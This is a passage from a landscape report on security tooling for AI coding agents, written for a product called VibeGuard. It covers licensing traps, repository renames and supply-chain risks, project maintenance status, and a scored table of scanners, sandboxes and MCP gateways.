| **NOASSERTION / mixed / rider** | [Infisical/agent-vault](https://api.github.com/repos/Infisical/agent-vault/license) (`ee/` carve-out), [destructive_command_guard](https://api.github.com/repos/Dicklesworthstone/destructive_command_guard/license) ("MIT with OpenAI/Anthropic Rider"), [yolo-cage](https://api.github.com/repos/borenstein/yolo-cage/license) (CLAUDE.md all-rights-reserved), [modelcontextprotocol/registry](https://api.github.com/repos/modelcontextprotocol/registry/license) (MIT→Apache transition, per-contribution), [PurpleLlama](https://github.com/meta-llama/PurpleLlama/blob/main/LICENSE) (Llama Community License), [rustsec](https://api.github.com/repos/rustsec/rustsec), [oidebrett/mcpauth](https://api.github.com/repos/oidebrett/mcpauth) | Legal review required before any use; do not infer from the SPDX badge |
| **No license at all** | [llm-sast-scanner](https://api.github.com/repos/SunWeb3Sec/llm-sast-scanner), [mythos-bench](https://api.github.com/repos/semgrep/mythos-bench), [packnplay](https://api.github.com/repos/obra/packnplay), [SandboxedClaudeCode](https://api.github.com/repos/CaptainMcCrank/SandboxedClaudeCode), [claude-code-sandbox](https://api.github.com/repos/neko-kai/claude-code-sandbox), [damn-vulnerable-MCP-server](https://api.github.com/repos/harishsg993010/damn-vulnerable-MCP-server), [localsandbox](https://api.github.com/repos/coplane/localsandbox), [LLMSecGuard](https://api.github.com/repos/aryakvnust/LLMSecGuard), awesome-lists by Puliczek and AIM-Intelligence | All rights reserved. Reference only, never vendored |

The single most consequential finding: **the Semgrep *engine* is fine and the Semgrep *rules* are not.** The Semgrep Rules License v1.0 states "You may use the rules only for your own internal business purposes" and "does not allow you to distribute the rules or to make them available to others as a service" ([rules license](https://semgrep.dev/legal/rules-license)). This is the reason Opengrep exists at all — a coalition including JIT and Orca launched it on 2025-01-23 in reaction to the rules-license change ([InfoQ](https://www.infoq.com/news/2025/02/semgrep-forked-opengrep/)) — and the reason VibeGuard must ship **Opengrep plus its own rule corpus**.

### 3.4 Naming churn and supply-chain risk in the tooling itself

Four ownership/name moves were confirmed via the API in a single session, and each is a live supply-chain hazard for anyone who pinned the old path:

| Old path | Resolves to | Evidence |
|---|---|---|
| `invariantlabs-ai/mcp-scan` | [snyk/agent-scan](https://github.com/snyk/agent-scan) | [api returns new `full_name`](https://api.github.com/repos/invariantlabs-ai/mcp-scan) |
| `getjavelin/ramparts` | [highflame-ai/ramparts](https://github.com/highflame-ai/ramparts) | [api](https://api.github.com/repos/getjavelin/ramparts) |
| `microsandbox/microsandbox` | [superradcompany/microsandbox](https://github.com/superradcompany/microsandbox) | old path 404s, [new path live](https://api.github.com/repos/superradcompany/microsandbox) |
| `mavdol/capsule` | [capsulerun/capsule](https://github.com/capsulerun/capsule) | [api](https://api.github.com/repos/mavdol/capsule) |
| `jeremylong/DependencyCheck` | [dependency-check/DependencyCheck](https://github.com/dependency-check/DependencyCheck) | old repo archived 2025-09-27 "Repository Moved" ([api](https://api.github.com/repos/jeremylong/DependencyCheck)) |

GitHub silently follows repository redirects, so a pinned `owner/name` reference continues to resolve after a transfer to a different legal entity. Combined with the documented `postmark-mcp` pattern — an unaffiliated author who built trust across 15 clean versions then backdoored 1.0.16 to BCC every email ([Postmark](https://postmarkapp.com/blog/information-regarding-malicious-postmark-mcp-package)) — the practical rule for VibeGuard is: **pin every third-party scanner by full-length commit SHA or by digest-addressed container image, not by tag or name**, mirroring GitHub's own guidance that SHA pinning "is the only way to use an action as an immutable release" ([Actions hardening](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions)).

Two further hazards in this space: impersonation and slop. `llm-sast-scanner`'s README instructs users to `git clone https://github.com/anthropic-lab/llm-sast-scanner.git` — a name implying an Anthropic affiliation the repo does not evidence — and near-identical clones exist under at least four owners claiming 34/94/106 vulnerability classes ([repo](https://github.com/SunWeb3Sec/llm-sast-scanner)). `TikiTribe/claude-secure-coding-rules` still ships a quick-start reading `git clone https://github.com/yourusername/...` ([repo](https://github.com/TikiTribe/claude-secure-coding-rules)). And `gadievron/honeyslop` exists precisely because maintainers received an AI-generated slop vulnerability report on their own project ([repo](https://github.com/gadievron/honeyslop)) — a direct warning that any new agent will be judged on its slop rate.

### 3.5 Dead vs live

Confirmed **archived** (`archived: true`): [semgrep/mcp](https://api.github.com/repos/semgrep/mcp) (moved into the semgrep binary), [stacklok/codegate](https://api.github.com/repos/stacklok/codegate) (README marked DEPRECATED), [trailofbits/afc-buttercup](https://api.github.com/repos/trailofbits/afc-buttercup), [theori-io/aixcc-afc-archive](https://api.github.com/repos/theori-io/aixcc-afc-archive) ("will NOT be supported"), [42-b3yond-6ug/42-b3yond-6ug-asc](https://api.github.com/repos/42-b3yond-6ug/42-b3yond-6ug-asc), [borenstein/yolo-cage](https://api.github.com/repos/borenstein/yolo-cage), [praetorian-inc/noseyparker](https://api.github.com/repos/praetorian-inc/noseyparker), [tenable/terrascan](https://api.github.com/repos/tenable/terrascan), and `tuananh/hyper-mcp` (archived **and** a fork of `hyper-mcp-rs/hyper-mcp`, [api](https://api.github.com/repos/tuananh/hyper-mcp)).

Confirmed **superseded**: [tfsec](https://github.com/aquasecurity/tfsec) — README states "tfsec is now part of Trivy" although the repo is not flagged archived.

Confirmed **dormant ≥6 months at fetch time** but not archived: vulnhuntr (last commit 2025-02-06), sven (2024-07-14), vibraniumdome (2024-10-28), LLMSecGuard (2024-05-19), CVEfixes (2024-07-29), mcp-shield (2025-04-26), mcp-guardian (2025-04-10), SecureMCP (2025-06-07), sherpa (2025-08-20), untamed-theory/vibesec (2025-08-07), gate22 (2025-10-21), artiphishell (2025-08-27), aixcc-afc-atlantis (2025-11-25), agentic-radar (2025-11-27), leash (2026-04-06), claude-code-security-review (2026-02-11), mcp-context-protector (2026-02-13), nova-proximity (2026-03-26), VibeSec-Skill (2026-02-17), phantom_guard (2026-03-06), securevibes (2026-03-27), llm-sast-scanner (2026-04-07).

Confirmed **live** (commits within ~2 weeks of 2026-08-17): opengrep, trivy, syft, grype, osv-scanner, checkov, scorecard, gitleaks, zizmor, safedep/vet, guarddog, srt, pipelock, ctxlint, snyk/agent-scan, cisco mcp-scanner, toolhive, mcp-context-forge, agentgateway, mcpproxy-go, microsandbox, agent-sandbox, gvisor, monty, litebox, gh-aw, ai-jail, destructive_command_guard, strix, buttercup, src2sink, PurpleLlama, e2b, vercel/sandbox, wassette.

**Design consequence.** VibeGuard must not depend on any single third-party scanner for a category it considers load-bearing. The engine's adapter layer isolates each tool behind a normalized Finding contract precisely so that an archival event (semgrep/mcp, terrascan, noseyparker) is a configuration change rather than a rewrite.

---

## 4. Top Projects

### 4.1 Comprehensive table

**Flag legend (compact):** `A` = uses an LLM itself · `G` = agent-harness aware (targets Claude Code/Cursor/Codex/Copilot) · `M` = MCP-aware · `X` = auto-fix/remediation · `C` = documented CI/CD or Action usage · `L` = CLI · `D` = Docker · `O` = documented local/offline operation. A flag is present only if a fetched page stated it; absence means "not stated", not "unsupported". **Reusable?** = fit for embedding/redistribution in an open-core commercial product (`Y` = permissive, `Sub` = subprocess-only due to copyleft, `N` = license or terms forbid it, `Legal` = mixed/NOASSERTION requiring review). **Score** = 1–10 usefulness as a VibeGuard building block (analyst judgment).

*Table size note:* the table runs to 94 rows rather than a tighter 45–70. Rows 1–70 are the genuinely valuable candidates; rows 71–94 are retained deliberately because the report is required to flag abandoned, archived, forked, license-trapped and self-vulnerable projects **with their verified metadata**, and several of those (CodeQL CLI, semgrep-rules, Brakeman, bearer, TruffleHog, Terrascan, Nosey Parker) are still recommended by third-party round-ups. Readers optimising for signal can stop at row 70.

| # | Repo | Category | Purpose | Created | Last activity | Stars | License | Status | Flags | Reusable? | Score |
|---|---|---|---|---|---|---|---|---|---|---|---|
| 1 | [opengrep/opengrep](https://github.com/opengrep/opengrep) | SAST engine | LGPL fork of Semgrep; pattern + taint engine, SARIF 2.1.0, interfile alpha | 2024-12-14 | [2026-08-14](https://api.github.com/repos/opengrep/opengrep/commits) | [2954](https://api.github.com/repos/opengrep/opengrep) | LGPL-2.1 | Live, **fork of Semgrep** | C L D O | Sub | 9 |
| 2 | [aquasecurity/trivy](https://github.com/aquasecurity/trivy) | SCA/IaC/secrets/container | One binary for vulns, misconfig, secrets, licenses; JSON+SARIF for all scanners | n.a. | [v0.74.0 2026-08-14](https://api.github.com/repos/aquasecurity/trivy) | n.a. | Apache-2.0 | Very active, 5-d cadence | C L D O | Y | 9 |
| 3 | [google/osv-scanner](https://github.com/google/osv-scanner) | SCA | Lockfile/SBOM → OSV matching; only tool with explicit offline guarantee | n.a. | [v2.5.0 2026-08-07](https://api.github.com/repos/google/osv-scanner) | n.a. | Apache-2.0 | Active, 27-d cadence | C L D O | Y | 9 |
| 4 | [gitleaks/gitleaks](https://github.com/gitleaks/gitleaks) | Secrets | Git-history + filesystem secret detection; native SARIF | n.a. | [pushed 2026-07-29](https://api.github.com/repos/gitleaks/gitleaks) | n.a. | MIT | Active | C L D | Y | 9 |
| 5 | [safedep/vet](https://github.com/safedep/vet) | Supply chain | Policy-as-code (CEL) dependency gate, malicious-package detection, MCP server mode | 2022-12-30 | [2026-08-16](https://api.github.com/repos/safedep/vet/commits) | [1097](https://api.github.com/repos/safedep/vet) | Apache-2.0 | Very active | M C L D | Y | 9 |
| 6 | [anthropic-experimental/sandbox-runtime](https://github.com/anthropic-experimental/sandbox-runtime) | Agent sandbox | OS-level FS+network restriction without containers (`sandbox-exec`/bubblewrap + proxy) | 2025-10-20 | [2026-08-13](https://api.github.com/repos/anthropic-experimental/sandbox-runtime) | [4983](https://api.github.com/repos/anthropic-experimental/sandbox-runtime) | Apache-2.0 | Live; **Beta Research Preview**; 1 advisory (network escape) | G M C L O | Y | 10 |
| 7 | [anthropics/claude-code-security-review](https://github.com/anthropics/claude-code-security-review) | AI review agent | Diff-aware semantic PR security review Action with FP filtering | 2025-08-04 | [2026-02-11](https://api.github.com/repos/anthropics/claude-code-security-review/commits) | [5865](https://api.github.com/repos/anthropics/claude-code-security-review) | MIT | Slow (~6-mo gap); **vendor states not hardened vs prompt injection** | A G C | Y | 9 |
| 8 | [GitHubSecurityLab/seclab-taskflow-agent](https://github.com/GitHubSecurityLab/seclab-taskflow-agent) | Orchestration | YAML taskflows over OpenAI Agents SDK, MCP, checkpoint/resume, model-agnostic | 2025-09-08 | [2026-08-03](https://api.github.com/repos/GitHubSecurityLab/seclab-taskflow-agent/commits) | [221](https://api.github.com/repos/GitHubSecurityLab/seclab-taskflow-agent) | MIT | Active, v0.5.0 | A G M L D O | Y | 9 |
| 9 | [snyk/agent-scan](https://github.com/snyk/agent-scan) | MCP/agent scanner | Scans agents, MCP servers and skills for injection/tool poisoning; proxy mode | 2025-04-07 | [2026-08-13](https://api.github.com/repos/snyk/agent-scan) | [2913](https://api.github.com/repos/snyk/agent-scan) | Apache-2.0 | Very active; **renamed from invariantlabs-ai/mcp-scan**; output experimental, v0.5.x "planned for deprecation" | A G M C L D | Y | 9 |
| 10 | [cisco-ai-defense/mcp-scanner](https://github.com/cisco-ai-defense/mcp-scanner) | MCP scanner | Three interchangeable engines (YARA / LLM-as-judge / Cisco API), SDK+CLI+REST | 2025-09-24 | [2026-08-07](https://api.github.com/repos/cisco-ai-defense/mcp-scanner/commits) | [1033](https://api.github.com/repos/cisco-ai-defense/mcp-scanner) | Apache-2.0 | Very active, 4.8.3 | A G M X C L D O | Y | 9 |
| 11 | [trailofbits/mcp-context-protector](https://github.com/trailofbits/mcp-context-protector) | MCP wrapper | Host↔server wrapper: TOFU config pinning, rug-pull blocking, ANSI sanitisation, response quarantine | 2025-04-28 | [2026-02-13](https://api.github.com/repos/trailofbits/mcp-context-protector) | [222](https://api.github.com/repos/trailofbits/mcp-context-protector) | Apache-2.0 | 6-mo gap, no tagged release, **no advisories** | G M X L D O | Y | 9 |
| 12 | [strongdm/leash](https://github.com/strongdm/leash) | Agent mediation | Wraps coding agents in containers, enforces Cedar policies, control UI | 2025-10-21 | [2026-04-06](https://api.github.com/repos/strongdm/leash) | [588](https://api.github.com/repos/strongdm/leash) | Apache-2.0 | 4-mo gap at fetch | G M L D O | Y | 9 |
| 13 | [iris-sast/iris](https://github.com/iris-sast/iris) | LLM-grounded SAST | CodeQL taint with LLM-proposed sources/sinks + LLM triage; ships CWE-Bench-Java | 2024-12-10 | [2026-07-02](https://api.github.com/repos/iris-sast/iris/commits) | [413](https://api.github.com/repos/iris-sast/iris) | MIT | Active, research cadence | A C L D | Y (CodeQL terms separate) | 8 |
| 14 | [DataDog/guarddog](https://github.com/DataDog/guarddog) | Supply chain | YARA + metadata heuristics for malicious PyPI/npm/Go/crates/RubyGems/Action/VSCode packages | 2022-06-14 | [2026-08-14](https://api.github.com/repos/DataDog/guarddog/commits) | [1184](https://api.github.com/repos/DataDog/guarddog) | Apache-2.0 | Very active, v3.2.0 | C L D O | Y | 8 |
| 15 | [YawLabs/ctxlint](https://github.com/YawLabs/ctxlint) | Agent config linter | Lints CLAUDE.md/AGENTS.md/.cursorrules/.mcp.json against the codebase, auto-fix, MCP-server mode | 2026-04-05 | [2026-08-16](https://api.github.com/repos/YawLabs/ctxlint) | [7](https://api.github.com/repos/YawLabs/ctxlint) | MIT | Very active but **7★, no audit** | G M X C L | Y | 8 |
| 16 | [highflame-ai/ramparts](https://github.com/highflame-ai/ramparts) | MCP+skill scanner | YARA + LLM + OWASP MCP Top 10 tagging over MCP servers **and** skill files | 2025-07-23 | **n.a.** (commits endpoint empty after move) | [96](https://api.github.com/repos/highflame-ai/ramparts) | Apache-2.0 | **Ownership changed** getjavelin→highflame-ai | A G M C L D | Y | 8 |
| 17 | [jingkaihe/matchlock](https://github.com/jingkaihe/matchlock) | Agent sandbox | Ephemeral microVMs + network allowlist + MITM secret injection ("secrets never enter the VM") | 2026-02-05 | [2026-07-26](https://api.github.com/repos/jingkaihe/matchlock) | [611](https://api.github.com/repos/jingkaihe/matchlock) | MIT | Self-described **experimental, breaking changes** | G M L D O | Y | 8 |
| 18 | [Infisical/agent-vault](https://github.com/Infisical/agent-vault) | Credential broker | HTTP credential proxy so "agents should not possess credentials" | 2026-03-27 | [2026-08-03](https://api.github.com/repos/Infisical/agent-vault) | [2092](https://api.github.com/repos/Infisical/agent-vault) | **NOASSERTION** (`ee/` carve-out) | Active | G M C L D | Legal | 8 |
| 19 | [luckyPipewrench/pipelock](https://github.com/luckyPipewrench/pipelock) | Egress firewall | Mediates HTTP/MCP/A2A/WS traffic for exfil/SSRF/injection; mediator-signed action receipts | 2026-02-08 | [2026-08-16](https://api.github.com/repos/luckyPipewrench/pipelock) | [796](https://api.github.com/repos/luckyPipewrench/pipelock) | Apache-2.0 | Very active, young, broad claims | G M C L D O | Y | 8 |
| 20 | [bridgecrewio/checkov](https://github.com/bridgecrewio/checkov) | IaC | Widest IaC framework coverage; CLI/CycloneDX/JSON/JUnit/CSV/SARIF | n.a. | [3.3.9 2026-08-02](https://api.github.com/repos/bridgecrewio/checkov) | n.a. | Apache-2.0 | Very active, 4-d cadence | C L D | Y | 8 |
| 21 | [anchore/syft](https://github.com/anchore/syft) | SBOM | CycloneDX/SPDX/Syft-JSON generation incl. binary-level inventory | n.a. | [v1.51.0 2026-08-10](https://api.github.com/repos/anchore/syft) | n.a. | Apache-2.0 | Very active, 9-d cadence | C L D | Y | 8 |
| 22 | [ossf/scorecard](https://github.com/ossf/scorecard) | Repo trust posture | 19 supply-chain/health checks incl. Dangerous-Workflow (Critical) | n.a. | [v5.5.0 2026-04-23](https://api.github.com/repos/ossf/scorecard) | n.a. | Apache-2.0 | Active, 46-d cadence | C L D | Y | 8 |
| 23 | [zizmorcore/zizmor](https://github.com/zizmorcore/zizmor) | CI/CD | Static analysis for GitHub Actions; stable `--format=json-v1` | n.a. | [v1.29.0 2026-08-01](https://api.github.com/repos/zizmorcore/zizmor) | n.a. | MIT | Very active, ~0-d median gap | C L D | Y | 8 |
| 24 | [google/gvisor](https://github.com/google/gvisor) | Isolation kernel | Syscall-interception application kernel under many agent sandboxes | 2018-04-26 | [2026-08-15](https://api.github.com/repos/google/gvisor) | [19094](https://api.github.com/repos/google/gvisor) | Apache-2.0 | Live, no advisories returned | D O | Y | 8 |
| 25 | [trailofbits/buttercup](https://github.com/trailofbits/buttercup) | AIxCC CRS | 2nd-place CRS: orchestrator, seed gen, fuzzer, program model, multi-agent patcher | 2025-01-13 | [2026-08-10](https://api.github.com/repos/trailofbits/buttercup/commits) | [1676](https://api.github.com/repos/trailofbits/buttercup) | **AGPL-3.0** | Actively maintained; heavy infra | A G X L D | Sub | 7 |
| 26 | [protectai/vulnhuntr](https://github.com/protectai/vulnhuntr) | LLM SAST | Zero-shot whole-call-chain LLM analysis; real CVEs found (CVE-2024-10100/10101/10099/10044) | 2024-10-15 | [2025-02-06](https://api.github.com/repos/protectai/vulnhuntr/commits) | [2739](https://api.github.com/repos/protectai/vulnhuntr) | **AGPL-3.0** | **Stale ~18 months** | A L D O | Sub | 7 |
| 27 | [anshumanbh/securevibes](https://github.com/anshumanbh/securevibes) | Vibe-code scanner | 5-agent pipeline (Assess → STRIDE → Review → DAST → Report) for vibecoded apps | 2025-10-05 | [2026-03-27](https://api.github.com/repos/anshumanbh/securevibes/commits) | [282](https://api.github.com/repos/anshumanbh/securevibes) | **AGPL-3.0** | Quiet since 2026-03; Claude-only | A G M C L | Sub | 7 |
| 28 | [muence-ai/vibesec](https://github.com/muence-ai/vibesec) | Fix benchmark | 1,000 execution-verified patch tasks; exploit must die, behaviour preserved, "No model judges the result" | 2026-08-06 | [2026-08-06](https://api.github.com/repos/muence-ai/vibesec/commits) | [2](https://api.github.com/repos/muence-ai/vibesec) | MIT | Brand new, single stack (FastAPI) | A X L O | Y | 7 |
| 29 | [usestrix/strix](https://github.com/usestrix/strix) | Dynamic validation | Autonomous multi-agent pentesting of running apps + fix suggestions | 2025-08-05 | [2026-08-14](https://api.github.com/repos/usestrix/strix/commits) | [53318](https://api.github.com/repos/usestrix/strix) | Apache-2.0 | Very active; **treat star velocity sceptically** | A G X C L D O | Y | 7 |
| 30 | [secureIT-project/CVEfixes](https://github.com/secureIT-project/CVEfixes) | Dataset | NVD CVEs linked to fixing commits at commit/file/method level | 2021-07-17 | [2024-07-29](https://api.github.com/repos/secureIT-project/CVEfixes/commits) | [355](https://api.github.com/repos/secureIT-project/CVEfixes) | [MIT code / CC-BY-4.0 data](https://github.com/secureIT-project/CVEfixes/blob/main/LICENSE.txt) | Dormant; data frozen at 2024-07-23 CVEs | L O | Y (attribution) | 7 |
| 31 | [meta-llama/PurpleLlama](https://github.com/meta-llama/PurpleLlama) | Benchmarks + filters | CyberSecEval suite (incl. AutoPatchBench) + CodeShield/Llama Guard | 2023-12-06 | [2026-08-14](https://api.github.com/repos/meta-llama/PurpleLlama/commits) | [4355](https://api.github.com/repos/meta-llama/PurpleLlama) | [Llama Community License](https://github.com/meta-llama/PurpleLlama/blob/main/LICENSE) | Active; **conditional commercial terms** | A G L O | Legal | 7 |
| 32 | [stacklok/toolhive](https://github.com/stacklok/toolhive) | MCP isolation | Runs every MCP server in an isolated container with per-request policy; K8s operator | 2025-03-12 | [2026-08-14](https://api.github.com/repos/stacklok/toolhive) | [2017](https://api.github.com/repos/stacklok/toolhive) | Apache-2.0 | Very active; **4 advisories** incl. `host.docker.internal` bypass, unencrypted secrets | G M L D O | Y | 7 |
| 33 | [microsoft/wassette](https://github.com/microsoft/wassette) | WASM MCP runtime | Runs WebAssembly components via MCP on Wasmtime with capability permissions | 2025-07-15 | [2026-08-15](https://api.github.com/repos/microsoft/wassette) | [934](https://api.github.com/repos/microsoft/wassette) | MIT | Active; README warns **"not production ready"** | M L O | Y | 7 |
| 34 | [github/gh-aw](https://github.com/github/gh-aw) | CI agent workflows | Compiles markdown workflows into Actions runs for copilot/claude/codex/gemini + egress firewall | 2025-08-12 | [2026-08-16](https://api.github.com/repos/github/gh-aw) | [4937](https://api.github.com/repos/github/gh-aw) | MIT | Very active; GitHub-only | A G M C L | Y | 7 |
| 35 | [Tencent/AI-Infra-Guard](https://github.com/Tencent/AI-Infra-Guard) | AI red-team platform | Agent Scan, Skills Scan, MCP scan, AI infra scan, jailbreak eval | 2024-12-25 | [2026-08-12](https://api.github.com/repos/Tencent/AI-Infra-Guard) | [4513](https://api.github.com/repos/Tencent/AI-Infra-Guard) | Apache-2.0 | Active; platform not library | A G M C L D | Y | 7 |
| 36 | [earendil-works/gondolin](https://github.com/earendil-works/gondolin) | Agent sandbox | QEMU micro-VMs with JS-programmable host policy + placeholder secret injection | 2026-02-03 | [2026-07-06](https://api.github.com/repos/earendil-works/gondolin) | [1978](https://api.github.com/repos/earendil-works/gondolin) | Apache-2.0 | "Experimental"; 6-week gap | G L O | Y | 7 |
| 37 | [dagger/container-use](https://github.com/dagger/container-use) | Agent sandbox | MCP server + CLI giving each agent its own container + git branch | 2025-05-23 | [2026-08-12](https://api.github.com/repos/dagger/container-use) | [4011](https://api.github.com/repos/dagger/container-use) | Apache-2.0 | Active commits but **no release since 2025-08-19**; badge "experimental" | G M L D O | Y | 7 |
| 38 | [Dicklesworthstone/destructive_command_guard](https://github.com/Dicklesworthstone/destructive_command_guard) | Pre-exec hook | Blocks destructive git/shell commands across 9+ agent harnesses | 2026-01-07 | [2026-08-14](https://api.github.com/repos/Dicklesworthstone/destructive_command_guard) | [5769](https://api.github.com/repos/Dicklesworthstone/destructive_command_guard) | **"MIT with OpenAI/Anthropic Rider"** | Very active; blocklist bypassable by obfuscation | G C L D O | Legal | 7 |
| 39 | [kubernetes-sigs/agent-sandbox](https://github.com/kubernetes-sigs/agent-sandbox) | Sandbox orchestration | K8s `Sandbox` CRD + controller delegating isolation (gVisor example) | 2025-08-12 | [2026-08-16](https://api.github.com/repos/kubernetes-sigs/agent-sandbox) | [3536](https://api.github.com/repos/kubernetes-sigs/agent-sandbox) | Apache-2.0 | Very active | G D O | Y | 7 |
| 40 | [superradcompany/microsandbox](https://github.com/superradcompany/microsandbox) | microVM runtime | Local-first microVMs for untrusted workloads; MCP-accessible | 2024-10-03 | [2026-08-16](https://api.github.com/repos/superradcompany/microsandbox) | [7553](https://api.github.com/repos/superradcompany/microsandbox) | Apache-2.0 | Very active; **moved repo**; 1 advisory (secrets in process args) | M L D O | Y | 7 |
| 41 | [containers/bubblewrap](https://github.com/containers/bubblewrap) | Isolation primitive | Unprivileged sandbox used by `srt` and `ai-jail` | 2016-02-16 | [2026-06-02](https://api.github.com/repos/containers/bubblewrap) | [8386](https://api.github.com/repos/containers/bubblewrap) | **LGPL-2.0** | Live; **CVE-2026-41163 + CVE-2020-5291** (setuid privesc) | O | Sub | 7 |
| 42 | [harishsg993010/damn-vulnerable-MCP-server](https://github.com/harishsg993010/damn-vulnerable-MCP-server) | Test corpus | 10 progressive MCP attack challenges | 2025-04-16 | [2025-12-08](https://api.github.com/repos/harishsg993010/damn-vulnerable-MCP-server) | [1334](https://api.github.com/repos/harishsg993010/damn-vulnerable-MCP-server) | **none declared** | Stale; **do not vendor** | M L | N | 7 |
| 43 | [google/oss-fuzz-gen](https://github.com/google/oss-fuzz-gen) | Harness generation | LLM fuzz-target generation; valid targets for 160 C/C++ projects, +29% coverage | 2024-01-25 | [2026-03-02](https://api.github.com/repos/google/oss-fuzz-gen/commits) | [1430](https://api.github.com/repos/google/oss-fuzz-gen) | Apache-2.0 | Active-ish; needs OSS-Fuzz infra | A G L D | Y | 7 |
| 44 | [GitHubSecurityLab/seclab-taskflows](https://github.com/GitHubSecurityLab/seclab-taskflows) | Taskflow library | GHSA variant analysis + whole-repo audit flows; README warns audits take hours and cost real money | 2025-11-25 | [2026-07-29](https://api.github.com/repos/GitHubSecurityLab/seclab-taskflows/commits) | [75](https://api.github.com/repos/GitHubSecurityLab/seclab-taskflows) | MIT | Active | A G M L D | Y | 7 |
| 45 | [shellphish/PatcherY](https://github.com/shellphish/PatcherY) | Verified auto-patcher | Standalone patcher with `--generate-verified-patch`, OSS-Fuzz mode | 2025-09-06 | [2025-10-04](https://api.github.com/repos/shellphish/PatcherY/commits) | [13](https://api.github.com/repos/shellphish/PatcherY) | BSD-2-Clause | Quiet; most permissive AIxCC patcher | A G X L D | Y | 6 |
| 46 | [fuzzingbrain/afc-crs-all-you-need-is-a-fuzzing-brain](https://github.com/fuzzingbrain/afc-crs-all-you-need-is-a-fuzzing-brain) | AIxCC CRS | Fuzzing + LLM "suspicious point" reasoning; every finding dynamically verified; `--budget` cap | 2025-07-21 | [2026-07-15](https://api.github.com/repos/fuzzingbrain/afc-crs-all-you-need-is-a-fuzzing-brain/commits) | [130](https://api.github.com/repos/fuzzingbrain/afc-crs-all-you-need-is-a-fuzzing-brain) | Apache-2.0 | Actively maintained (v2) | A G X L D | Y | 6 |
| 47 | [AIxCyberChallenge/sherpa](https://github.com/AIxCyberChallenge/sherpa) | Harness + triage | Entry-point discovery, harness gen, build auto-repair, LLM crash triage (~80% FP filtered) | 2025-07-24 | [2025-08-20](https://api.github.com/repos/AIxCyberChallenge/sherpa/commits) | [142](https://api.github.com/repos/AIxCyberChallenge/sherpa) | MIT | **Frozen after AIxCC** | A G X L D | Y | 6 |
| 48 | [pixee/codemodder-python](https://github.com/pixee/codemodder-python) | Deterministic fix | Codemod framework consuming SAST results and rewriting Python | 2023-08-24 | [2025-12-01](https://api.github.com/repos/pixee/codemodder-python/commits) | [43](https://api.github.com/repos/pixee/codemodder-python) | **AGPL-3.0** | Low activity | X C L O | Sub | 6 |
| 49 | [matte1782/phantom_guard](https://github.com/matte1782/phantom_guard) | Slopsquatting | Checks whether AI-suggested packages exist; typosquat/malware indicators; SARIF | 2025-12-24 | [2026-03-06](https://api.github.com/repos/matte1782/phantom_guard/commits) | [3](https://api.github.com/repos/matte1782/phantom_guard) | MIT | Solo maintainer, quiet | C L | Y | 6 |
| 50 | [mimecast/src2sink](https://github.com/mimecast/src2sink) | Cross-repo context | Source-code "metabase" designed as LLM SAST context so taint crosses repos; SLSA L3 | 2026-07-27 | [2026-08-10](https://api.github.com/repos/mimecast/src2sink/commits) | [0](https://api.github.com/repos/mimecast/src2sink) | MIT | Very new, unproven, 0★ | C L O | Y | 6 |
| 51 | [TikiTribe/claude-secure-coding-rules](https://github.com/TikiTribe/claude-secure-coding-rules) | Rule corpus | 100+ rule sets: OWASP Top 10 2025, OWASP MCP Top 10, NIST AI RMF, ATLAS, SAIF; 12 languages | 2025-11-20 | [2026-05-02](https://api.github.com/repos/TikiTribe/claude-secure-coding-rules/commits) | [138](https://api.github.com/repos/TikiTribe/claude-secure-coding-rules) | MIT | Quiet; `yourusername` placeholder still in quick-start | A G M C L D O | Y | 6 |
| 52 | [BehiSecc/VibeSec-Skill](https://github.com/BehiSecc/VibeSec-Skill) | Skill pack | Secure-coding skill; README admits it covers "60-70% of the common vulnerabilities" | 2026-02-02 | [2026-02-17](https://api.github.com/repos/BehiSecc/VibeSec-Skill/commits) | [1191](https://api.github.com/repos/BehiSecc/VibeSec-Skill) | Apache-2.0 | Quiet; prompt-only, upsells a product | A G O | Y | 6 |
| 53 | [kapilduraphe/mcp-watch](https://github.com/kapilduraphe/mcp-watch) | MCP scanner | Named detectors: tool poisoning, parameter injection, rug-pull/mutation, ANSI injection, SSRF | 2025-05-29 | [2026-04-26](https://api.github.com/repos/kapilduraphe/mcp-watch) | [135](https://api.github.com/repos/kapilduraphe/mcp-watch) | MIT | 4-mo gap; **most liftable detector taxonomy** | M C L D O | Y | 6 |
| 54 | [Nova-Hunting/nova-proximity](https://github.com/Nova-Hunting/nova-proximity) | MCP+skill scanner | NOVA-rule evaluation of MCP tools/prompts/resources and Agent Skills | 2025-09-27 | [2026-03-26](https://api.github.com/repos/Nova-Hunting/nova-proximity) | [302](https://api.github.com/repos/Nova-Hunting/nova-proximity) | **GPL-3.0** | 5-mo gap | A G M L | Sub | 6 |
| 55 | [splx-ai/agentic-radar](https://github.com/splx-ai/agentic-radar) | Agentic workflow scanner | Maps tools/data flows in LangGraph/CrewAI/n8n/OpenAI Agents; flags risky tools and MCP servers | 2025-02-12 | [2025-11-27](https://api.github.com/repos/splx-ai/agentic-radar/commits) | [1036](https://api.github.com/repos/splx-ai/agentic-radar) | Apache-2.0 | **Quiet since 2025-11** | A G M C | Y | 6 |
| 56 | [akitaonrails/ai-jail](https://github.com/akitaonrails/ai-jail) | Agent sandbox | bubblewrap + Landlock + seccomp on Linux, `sandbox-exec` on macOS; README: "not 100% secure, but enough" | 2026-03-01 | [2026-08-16](https://api.github.com/repos/akitaonrails/ai-jail) | [1089](https://api.github.com/repos/akitaonrails/ai-jail) | **GPL-3.0** | Very active | G L D O | Sub | 6 |
| 57 | [IBM/mcp-context-forge](https://github.com/IBM/mcp-context-forge) | MCP gateway | Registry+proxy federating MCP/A2A/REST behind one endpoint with guardrail plugins | 2025-05-08 | [2026-08-14](https://api.github.com/repos/IBM/mcp-context-forge) | [4330](https://api.github.com/repos/IBM/mcp-context-forge) | Apache-2.0 | Very active; **worst advisory record of the gateways** (critical hardcoded JWT secret, SSTI→RCE, SSRF, XSS) | A G M C L D O | Y (pin patched) | 6 |
| 58 | [docker/mcp-gateway](https://github.com/docker/mcp-gateway) | MCP gateway | Docker Desktop MCP Toolkit backend; runs catalog servers in containers | 2025-04-22 | [2026-08-11](https://api.github.com/repos/docker/mcp-gateway) | [1531](https://api.github.com/repos/docker/mcp-gateway) | MIT | Active; **8 advisories, 2 critical**; image signature verification **off by default** | M L D | Y (pin patched) | 6 |
